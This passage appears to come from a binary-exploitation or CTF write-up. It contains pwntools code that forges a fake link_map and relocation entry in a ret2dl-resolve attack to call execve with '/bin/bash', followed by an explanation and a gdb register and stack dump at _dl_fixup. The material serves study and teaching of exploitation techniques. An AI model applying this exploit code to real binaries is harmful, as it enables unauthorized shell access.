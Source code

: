 ```python 

    return fake_link_map 


fake = make_link_map(fake_link_map_addr, offset_2_addr)

# Point symtab to got -4, st_value is second field
fake += p32(6)
fake += p32(exe.got.__libc_start_main -4 )

# jmptab
fake += p32(23)
fake += p32(fake_link_map_addr + len(fake) + 4 -1)

r_info = (0 << 8) | 0x7

# r_offset is used to place the val
fake_jmprel = p32(exe.bss() - offset_2_addr) + p32(r_info)

fake += fake_jmprel
fake += b"/bin/bash"
```

One thing to note is that in them jmprel r_offset seems to be a funny value. The reason is that this address plus the offset is written to with the resolved address shortly before dl_resolve_runtime finishes. I figured this out by setting memory watchpoints 

In this example I set r_offset to 0, notice that the value in edi is the offset of the two values
```gdb 
$eax   : 0xf7e4e790  →  <execve+0> endbr32
$ebx   : 0xf7ffa000  →  0x00036f2c
$ecx   : 0x0
$edx   : 0x0
$esp   : 0x0804ba14  →   add BYTE PTR [eax], al
$ebp   : 0x0804bb70  →   xor dl, dl
$esi   : 0x7
$edi   : 0xbd230
$eip   : 0xf7fd4004  →  <_dl_fixup+372> mov DWORD PTR [edi], eax
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x0804ba14│+0x0000:  add BYTE PTR [eax], al      ← $esp
0x0804ba18│+0x0004:  add BYTE PTR [eax], al
0x0804ba1c│+0x0008:  add BYTE PTR [eax], al
0x0804ba20│+0x000c:  add DWORD PTR [eax], eax
0x0804ba24│+0x0010: 0xf7ffa000  →  0x00036f2c
0x0804ba28│+0x0014:  add BYTE PTR [eax], al
0x0804ba2c│+0x0018:  xor dl, dl
0x0804ba30│+0x001c:  add BYTE PTR [eax], al
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
   0xf7fd3ffc <_dl_fixup+364>  test   edx, edx
   0xf7fd3ffe <_dl_fixup+366>  jne    0xf7fd4006 <_dl_fixup+374>
   0xf7fd4000 <_dl_fixup+368>  mov    edi, DWORD PTR [esp+0x18]
 → 0xf7fd4004 <_dl_fixup+372>  mov    DWORD PTR [edi], eax
   0xf7fd4006 <_dl_fixup+374>  add    esp, 0x3c
   0xf7fd4009 <_dl_fixup+377>  pop    ebx
   0xf7fd400a <_dl_fixup+378>  pop    esi
   0xf7fd400b <_dl_fixup+379>  pop    edi
   0xf7fd400c <_dl_fixup+380>  pop    ebp
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
```